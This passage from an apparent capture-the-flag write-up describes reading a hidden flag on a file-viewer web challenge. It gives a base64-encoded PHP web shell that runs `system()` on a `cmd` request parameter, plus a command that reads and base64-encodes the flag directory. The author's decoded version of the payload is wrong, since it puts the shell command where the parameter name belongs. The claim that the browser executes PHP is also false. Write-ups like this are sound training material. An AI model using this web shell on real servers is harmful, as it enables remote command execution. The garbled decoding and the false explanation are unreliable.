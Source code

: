![](assets//images//file_viewer_5.png)

```
We found our flag, now for us to read the flag we need to decode the file to base 64.
The reason is that if we read a PHP file without encoding it the file will be executed
beacuse the web browser reads the content of the file as code and not text, I used the following payload for that:
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=cat i_wonder_whats_in_here/* | base64
which roughly translates to:
```
```php
<?php system($_GET['cat i_wonder_whats_in_here/* | base64']);echo 'Shell done !'; ?>
```
```
And lo and behold we got our base 64 encoded flag! :
```
![](assets//images//file_viewer_6.png)
